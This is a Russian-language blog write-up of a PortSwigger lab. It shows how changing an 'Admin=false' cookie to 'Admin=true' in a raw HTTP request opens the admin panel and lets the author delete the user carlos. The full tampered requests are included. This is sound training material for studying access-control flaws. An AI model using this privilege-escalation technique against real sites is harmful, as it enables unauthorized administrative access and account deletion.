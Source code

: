 ```yaml
---
title: "User role controlled by request parameter"
date: 2025-07-17
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/access-control-apprentice/access-control/lab-user-role-controlled-by-request-parameter#"
classes: wide
---
```


В данной лабе есть админ панель в поддиректории `/admin`. Для прохождения нужно удалить пользователя `carlos`. У нас есть свой аккаунт с кредами `wiener:peter`.

```
https://0a7400940427e73e81239e93008800d6.web-security-academy.net/
```

## Solution

Так как у нас креды, было бы глупо не войти в наш аккаунт.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/1.png){: height="200" .align-center}

В `url` нашего профиля `https://0a7400940427e73e81239e93008800d6.web-security-academy.net/my-account?id=wiener` мы можем увидеть `GET`-параметр `my-account`.

Можно попробовать указать другое имя аккаунта. Например, `carlos`. И это не сработало :(

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/2.png){: height="200" .align-center}

Можно посмотреть `HTTP`-запрос, который мы отправляем для получения страницы:

```http
GET /my-account HTTP/2
Host: 0a7400940427e73e81239e93008800d6.web-security-academy.net
Cookie: session=Vy6WXmcR6UmR0et3TlDj5mwYWF2Xy5f4; Admin=false
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7400940427e73e81239e93008800d6.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Мы можем увидеть, что в запросе нам установилось `Cookie`: `Admin` со значением `false`. Конечно же поменяем его на `True`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/3.png){: height="200" .align-center}

Попробуем таким же образом зайти в панель администратора:

```http
GET /admin HTTP/2
Host: 0a7400940427e73e81239e93008800d6.web-security-academy.net
Cookie: session=eRLogJbzgvCOwyqgzja8CRmzduJ8L2Dl; Admin=true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```

Успех) Теперь просто удалим пользователя.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_access_control/IMG_User_role_controlled_by_request_parameter/4.png){: height="200" .align-center}